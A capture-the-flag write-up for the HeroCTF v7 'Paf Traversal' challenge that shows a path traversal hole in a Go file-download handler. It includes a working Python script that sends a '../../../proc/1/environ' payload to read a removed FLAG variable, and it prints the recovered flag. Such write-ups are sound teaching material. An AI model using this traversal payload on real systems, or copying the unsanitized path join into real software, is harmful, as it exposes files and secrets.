


## HeroCTF v7 - Paf Traversal Write-up

 

### Step 1: Reconnaissance and Architecture Analysis

We are provided with the source code for a "high-performance hash-cracking platform." The architecture consists of two main components:
1.  **Go API:** A web server handling file uploads and requests.
2.  **C Cracker:** A binary running in the background processing hash requests via Named Pipes (FIFOs).

Our initial audit of `entrypoint.sh` reveals how the flag is handled.

```bash
#!/bin/bash

echo "${FLAG:-HEROCTF_FAKE_FLAG}" > "/app/flag_$(openssl rand -hex 8).txt"
chmod 444 /app/flag_*.txt
unset FLAG

/app/cracker/cracker &
cd /app/api/ && ./api
```

**Key findings:**
*   The flag is written to a file with a **random 8-byte hex suffix**. We cannot guess the filename.
*   The environment variable `FLAG` is `unset` immediately after the file is created.
*   The application runs as the `app` user.

### Step 2: Vulnerability Identification (Path Traversal)

Analyzing the Go API source code, specifically `api/controllers/wordlist_controller.go`, we find the `HandleDownloadWordlist` function.

```go
func HandleDownloadWordlist(c *gin.Context) {
    wordlistDir := getWordlistDir()
    // ... binding JSON ...
    
    // VULNERABILITY: No sanitization to ensure filePath is inside wordlistDir
    filePath := filepath.Join(wordlistDir, json.Filename)

    f, err := os.Open(filePath)
    // ... reads and returns file content ...
}
```

While `filepath.Join` cleans the path, it **does not prevent directory traversal** if the input contains `../`. By sending a filename like `../../../../etc/passwd`, we can break out of the `wordlists` directory and read arbitrary files on the system (LFI).

### Step 3: Strategy - The /proc/1/environ Trick

We have an Arbitrary File Read, but we don't know the flag's filename. We also know the `FLAG` environment variable is unset in the current process.

However, in Linux container environments (like Docker), the process with **PID 1** (usually the entrypoint script or init process) holds the initial environment variables.

Even if `unset FLAG` is executed in the shell script, the virtual file `/proc/1/environ` acts as a snapshot of the environment at the moment the process started. Updates to the environment (like `unset`) inside the process do not always reflect in this static file immediately or at all for the initial process history.

**Target:** Read `/proc/1/environ` to recover the `FLAG` variable before it was unset.

### Step 4: Exploitation Script

We write a Python script to automate the path traversal and parse the null-byte separated environment file.

```python
import requests
import sys

TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://dyn05.heroctf.fr:12273"

def solve():
    print(f"[*] Target: {TARGET}")
    
    # Vulnerable Endpoint
    url = f"{TARGET}/api/wordlist/download"
    
    # Payload: Traverse to root, then access procfs for PID 1
    payload = {
        "filename": "../../../proc/1/environ"
    }

    try:
        print(f"[*] Sending payload to {url}...")
        res = requests.post(url, json=payload)

        if res.status_code != 200:
            print(f"[-] Error: Server returned status {res.status_code}")
            return

        data = res.json()
        raw_env = data["content"]
        print("[+] Successfully read /proc/1/environ")

        # Environment variables in procfs are null-byte separated
        env_vars = raw_env.split('\x00')
        
        for var in env_vars:
            if var.startswith("FLAG=") or "Hero{" in var:
                print(f"\n[SUCCESS] Flag found:\n{var}")
                if "=" in var:
                    print(f"Value: {var.split('=', 1)[1]}")
                return

    except Exception as e:
        print(f"[-] Exception: {e}")

if __name__ == "__main__":
    solve()
```

### Step 5: Execution and Flag Retrieval

Running the script against the target instance immediately leaks the environment variables of PID 1, revealing the flag.



The flag was successfully recovered from the "deleted" environment variable.

**Flag:**
`Hero{e9e2b63a0daa9ee41d2133b450425b2cd7c7510e5a28b655748456bd3f6e5c2a}`